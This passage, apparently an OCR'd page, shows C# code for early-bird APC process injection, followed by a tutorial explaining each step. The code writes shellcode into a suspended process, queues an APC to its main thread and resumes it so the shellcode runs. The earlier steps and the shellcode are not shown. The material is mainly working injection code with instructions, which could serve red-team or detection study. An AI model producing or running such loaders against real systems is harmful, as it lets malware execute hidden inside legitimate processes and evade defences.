 ```csharp
            // Step 3: Write the shellcode into the allocated memory
            bool written = PInvoke.WriteProcessMemory(pi.hProcess, remoteBuffer, shellcode, (nuint)shellcode.Length, out _);

            if (!written)
            {
                throw new InvalidOperationException("Failed to write shellcode into the target process.");
            }

            // Step 4: Queue the APC to the main thread of the process
            IntPtr hThread = pi.hThread;

            if (!PInvoke.QueueUserAPC(remoteBuffer, hThread, UIntPtr.Zero))
            {
                throw new InvalidOperationException("Failed to queue APC.");
            }

            // Step 5: Resume the thread to trigger the APC execution
            PInvoke.ResumeThread(hThread);
        }
        finally
        {
            // Clean up handles
            PInvoke.CloseHandle(pi.hProcess);
            PInvoke.CloseHandle(pi.hThread);
        }
    }
}
```

### **Explanation of the Code:**

1. **Create Suspended Process**:
   - The target process is created in a suspended state using `CreateProcess`.

2. **Allocate Memory and Write Shellcode**:
   - Memory is allocated in the target process using `VirtualAllocEx`.
   - The shellcode is then written into the allocated memory using `WriteProcessMemory`.

3. **Queue APC**:
   - The shellcode is executed via an APC using `QueueUserAPC`. The APC is queued to the target process’s main thread, and once the thread resumes, the shellcode is executed.

4. **Resume Thread**:
   - The main thread of the target process is resumed using `ResumeThread`, triggering the APC and thus executing the injected code.

### **APC Queueing Details:**

- **APC (Asynchronous Procedure Call)**: APCs allow functions to be executed asynchronously in the context of a specific thread. By queuing an APC, you effectively execute your code when the target thread enters an alertable state.
  